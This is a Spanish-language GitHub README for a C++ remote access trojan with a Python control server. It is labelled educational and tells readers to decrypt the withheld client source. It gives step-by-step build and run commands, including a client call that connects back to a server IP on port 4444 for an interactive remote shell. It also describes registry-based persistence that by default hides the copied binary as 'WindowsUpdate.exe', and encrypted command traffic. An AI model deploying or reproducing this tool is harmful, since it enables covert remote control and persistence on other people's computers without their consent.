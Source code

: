 # RAT C++

> [!WARNING]
> Aunque es algo super sencillo prefiero no tener directamente malware en mis repos de GitHub así que, por favor, descargue la `encryption 1.key` adjunta y ejecute el código para desencriptar:
> `./direncrypt ./Client -d encryption 1.key`

> SHA original: `fb78bee1941d787ce88a531f444aab5d785e6d065d0db7c25acd6bf3d820c93a`

Si no quiere hacer el proceso hay una [demostración](#demostración) al final de este README.

---

Este proyecto es una implementación con fines educativos de un RAT que permite la ejecución remota de comandos en una máquina Windows desde un servidor en Linux. Toda la comunicación se encuentra cifrada utilizando **AES-128 (CBC)** para garantizar la confidencialidad.

El cliente está desarrollado en **C++** para Windows y el servidor en **Python**.

## Características

  - **Canal de Comunicación Cifrado:** Utiliza una clave precompartida AES-128 para cifrar todo el tráfico.
  - **Ejecución Remota de Comandos:** El servidor puede enviar cualquier comando de la shell de Windows al cliente y recibir la salida.
  - **Mecanismo de Persistencia:** El cliente puede instalarse en el sistema Windows para ejecutarse automáticamente en cada inicio de sesión.
  - **Cross-Compilation:** El cliente de Windows se compila fácilmente desde un entorno Linux usando `MinGW-w64`.

## Estructura del Proyecto

```
.
├── Client
│   ├── build.sh
│   ├── client.exe
│   ├── comm.cpp
│   ├── crypto.cpp
│   ├── exec.cpp
│   ├── include
│   │   ├── comm.h
│   │   ├── crypto.h
│   │   ├── exec.h
│   │   └── persist.h
│   ├── main.cpp
│   ├── Makefile
│   └── persist.cpp
├── direncrypt
├── keygen.py
└── Server
    ├── requirements.txt
    └── server.py
```

## Requisitos Previos

### Entorno de Compilación (Linux)

Para compilar el cliente (`client.exe`) necesitas un entorno Linux con el compilador cruzado **MinGW-w64**.

  - En **Debian/Ubuntu**, puedes instalarlo con:
    ```bash
    sudo apt update
    sudo apt install -y mingw-w64
    ```

### Entorno del Servidor (Python)

El servidor requiere Python 3 y algunas librerías externas.

1.  Navega al directorio del servidor:
    ```bash
    cd Server/
    ```
2.  Instala las dependencias usando el archivo `requirements.txt`:
    ```bash
    pip install -r requirements.txt
    ```

> Se recomienta usar un entorno virtual

## Tutorial de Uso

### Paso 1: Generar una Clave de Cifrado

El script `keygen.py` genera una clave AES-128 segura de 32 caracteres hexadecimales que necesitarán tanto el cliente como el servidor.

```bash
python3 keygen.py
```

**Salida de ejemplo:**

```
============================================================
  AES-128 Key Generator
============================================================

Generated Key: 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D

Length: 32 characters (16 bytes)
...
```

**Guarda esta clave, la necesitarás en los siguientes pasos.**

### Paso 2: Compilar el Cliente para Windows

Desde tu máquina Linux, navega al directorio del cliente y ejecuta el script de compilación.

```bash
cd Client/
./build.sh
```

Si la compilación es exitosa, se creará el archivo `client.exe` en el directorio `Client/`.

### Paso 3: Configurar el Entorno de Pruebas

Para probar la aplicación de forma segura, se recomienda usar una máquina virtual (VM) de Windows.

1.  **Monta la carpeta del proyecto** como un volumen compartido o una carpeta de red en tu VM de Windows. Esto te permitirá acceder al `client.exe` compilado desde dentro de la VM.
2.  Asegúrate de que la red de la VM esté configurada para que pueda comunicarse con la máquina anfitriona (Linux). Una configuración de red "Puente" (Bridged) o "NAT" suele funcionar.

> [!NOTE]
> La carpeta compartida no es necesaria pero yo lo hice así para el desarrollo

### Paso 4: Iniciar el Servidor

En tu máquina Linux, ejecuta el `server.py` especificando un puerto y la clave AES que generaste en el Paso 1.

```bash
# Formato: python3 Server/server.py <PUERTO> <CLAVE_AES>
python3 Server/server.py 4444 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D
```

El servidor comenzará a escuchar conexiones entrantes.

### Paso 5: Ejecutar el Cliente

Dentro de tu VM de Windows, abre una terminal (CMD o PowerShell) y ejecuta el cliente.

  - **IP:** La dirección IP de tu máquina anfitriona Linux.
  - **PUERTO:** El mismo puerto que usaste para el servidor.
  - **CLAVE\_AES:** La misma clave que usaste para el servidor.

<!-- end list -->

```powershell
# Formato: ./client.exe <IP_SERVIDOR> <PUERTO> <CLAVE_AES> [--persist | --nopersist]

.\client.exe 192.168.1.100 4444 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D --nopersist
```

Si todo es correcto, verás un mensaje de conexión en el servidor y aparecerá una shell interactiva `RAT >`.

## Argumentos del Cliente y Persistencia

El comportamiento del cliente se puede controlar con los siguientes argumentos:

  - `--persist`: Al usar esta opción, el cliente se copiará a sí mismo a la carpeta `%APPDATA%` y creará una clave en el registro de Windows para ejecutarse automáticamente cada vez que el usuario inicie sesión.
  - `--nopersist`: El cliente se ejecuta una sola vez y no realiza ninguna modificación en el sistema. Si no se especifica `--persist` ni `--nopersist`, este es el comportamiento por defecto.
  - `--appname <NOMBRE>`: Permite especificar un nombre para el archivo copiado y la entrada del registro cuando se usa la persistencia (el valor por defecto es `WindowsUpdate.exe`).

> [\!NOTE]
> Cuando la persistencia se instala, el programa guarda el comando completo (incluyendo IP, puerto y clave) en el registro para poder reconectarse automáticamente después de un reinicio.

## Comandos Remotos Especiales

Una vez conectado, además de los comandos estándar de Windows (`dir`, `whoami`, etc.), puedes usar los siguientes comandos desde la shell del servidor:

  - `persist_install`: Instala la persistencia en la máquina cliente.
  - `persist_remove`: Elimina la persistencia del cliente.
  - `persist_check`: Verifica si la persistencia está activa.
  - `exit` o `quit`: Cierra la conexión con el cliente.

> [!WARNING]
> Este software está diseñado únicamente con fines educativos. Su uso está destinado a entornos controlados y aislados, como máquinas virtuales. No utilices esta herramienta en sistemas para los que no tengas autorización explícita.

# Demostración

## Poniendo el servidor en escucha

<p align="center">
    <img src="resources/server_en_escucha.png" alt="Server en escucha"/>
</p>

## Activando el RAT

<p align="center">
    <img src="resources/RAT_activado.png" alt="RAT activado"/>
</p>

## Usando el RAT

<p align="center">
    <img src="resources/usando_el_RAT.png" alt="Usando el RAT"/>
</p>
